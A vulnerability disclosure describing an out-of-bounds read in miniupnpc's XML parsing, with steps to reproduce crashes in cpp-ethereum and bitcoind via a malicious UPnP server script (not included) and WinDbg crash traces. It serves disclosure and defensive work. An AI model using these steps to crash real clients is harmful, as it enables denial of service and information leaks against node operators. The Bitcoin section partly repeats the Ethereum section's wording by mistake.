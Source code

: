 Description:

When miniupnpc parses a xml, it fails to check the end of the xml buffer, which could lead to read out of bounds of the buffer.
This can cause DOS or information leak.

In function

void parseelt(struct xmlparser * p):


					if(memcmp(p->xml, "<![CDATA[", 9) == 0)		// (1)  Failed to do bound check prior to "memcmp" here
					{
						/* CDATA handling */
						p->xml += 9;
						data = p->xml;
						i = 0;
						while(memcmp(p->xml, "]]>", 3) != 0)


To test:

The poc was tested on windows 10 64-bits.

First start the malicious upnp server:

python poc.py --listen 127.0.0.1:65000 --target havoc


1. For cpp-ethereum 1.3.0


1.1 Enable page heap for cpp-ethereum:

The page heap helps to crash the client immediately when oob read occurs.

1.1.1 Install Windbg x64

1.1.2 Execute the following command to enable page heap for eth.exe:

"c:\Program Files\Debugging Tools for Windows (x64)\gflags.exe" /i eth.exe +hpa


1.2 Start eth to observe the crash:

C:\Users\test>C:\cpp-ethereum\cpp-ethereum\build64\eth\Release\eth.exe

Crash Info:

(c60.41b4): Access violation - code c0000005 (!!! second chance !!!)

VCRUNTIME140!memcmp+0x90:

00007ffa`6764c320 488b01          mov     rax,qword ptr [rcx] ds:000002aa`02afb000=????????????????

0:018> k

Child-SP          RetAddr           Call Site

000000f8`56ffeea8 00007ff6`65d9af8f VCRUNTIME140!memcmp+0x90 [f:\dd\vctools\crt\vcruntime\src\string\amd64\memcmp.asm @ 150]

000000f8`56ffeeb0 00007ff6`65d9abe3 eth!parsexml+0x3ff

000000f8`56ffef20 00007ff6`65d93b09 eth!parsexml+0x53

000000f8`56ffef50 00007ff6`65c15d46 eth!parserootdesc+0x89

000000f8`56ffeff0 00007ff6`65bf7378 eth!dev::p2p::UPnP::UPnP+0x236 [c:\cpp-ethereum\cpp-ethereum\libp2p\upnp.cpp @ 79]

000000f8`56fff300 00007ff6`65c0722c eth!dev::p2p::Network::traverseNAT+0x138 [c:\cpp-ethereum\cpp-ethereum\libp2p\network.cpp @ 183]

000000f8`56fff470 00007ff6`65c12a18 eth!dev::p2p::Host::determinePublic+0x71c [c:\cpp-ethereum\cpp-ethereum\libp2p\host.cpp @ 407]

000000f8`56fff8b0 00007ff6`65b87596 eth!dev::p2p::Host::startedWorking+0x208 [c:\cpp-ethereum\cpp-ethereum\libp2p\host.cpp @ 751]

000000f8`56fffa20 00007ff6`65b87917 eth!dev::validateFieldNames+0x5f6

000000f8`56fffc50 00007ff6`65aa37e9 eth!dev::validateFieldNames+0x977

000000f8`56fffc90 00007ffa`69d7dc05 eth!std::_Pad::_Call_func+0x9

000000f8`56fffcc0 00007ffa`6b921fe4 ucrtbase!thread_start<unsigned int (__cdecl*)(void * __ptr64)>+0x35

000000f8`56fffcf0 00007ffa`6d7bf061 KERNEL32!BaseThreadInitThunk+0x14

000000f8`56fffd20 00000000`00000000 ntdll!RtlUserThreadStart+0x21



2. For BitCoin


2.1 Enable page heap for cpp-ethereum:

The page heap helps to crash the client immediately when oob read occurs.

2.1.1 Install Windbg x64

2.1.2 Execute the following command to enable page heap for eth.exe:

"c:\Program Files\Debugging Tools for Windows (x64)\gflags.exe" /i bitcoind.exe +hpa


2.2 Start bitcoind to observe the crash:

"C:\Program Files\Bitcoin\daemon\bitcoind.exe" -upnp



Crash Info:



(2648.4824): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
msvcrt!memcmp+0x90:
00007ffa`6b6ab890 488b01          mov     rax,qword ptr [rcx] ds:00000002`663f1000=????????????????
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Program Files\Bitcoin\daemon\bitcoind.exe - 
0:001> k
Child-SP          RetAddr           Call Site
00000000`0797de98 00000000`00efca10 msvcrt!memcmp+0x90
00000000`0797dea0 00000000`00ef99a3 bitcoind!secp256k1_ecdsa_recover+0x1eb9e0
00000000`0797df00 00000000`00efa005 bitcoind!secp256k1_ecdsa_recover+0x1e8973
00000000`0797df80 00000000`00a840a1 bitcoind!secp256k1_ecdsa_recover+0x1e8fd5
00000000`0797e070 00000000`00f84e07 bitcoind+0x940a1
00000000`0797f370 00000000`00d3d99f bitcoind!secp256k1_ecdsa_recover+0x273dd7
00000000`0797f660 00007ffa`6b68a8e6 bitcoind!secp256k1_ecdsa_recover+0x2c96f
00000000`0797f870 00007ffa`6b68a9bc msvcrt!_callthreadstartex+0x1e
00000000`0797f8a0 00007ffa`6b921fe4 msvcrt!_threadstartex+0x7c
00000000`0797f8d0 00007ffa`6d7bf061 KERNEL32!BaseThreadInitThunk+0x14
00000000`0797f900 00000000`00000000 ntdll!RtlUserThreadStart+0x21




Special Thanks:

I'd like to thank to "tintinweb" for his excellent work on CVE-2017-8798:


https://github.com/tintinweb/pub/tree/master/pocs/cve-2017-8798


I heavily reused his poc code in this poc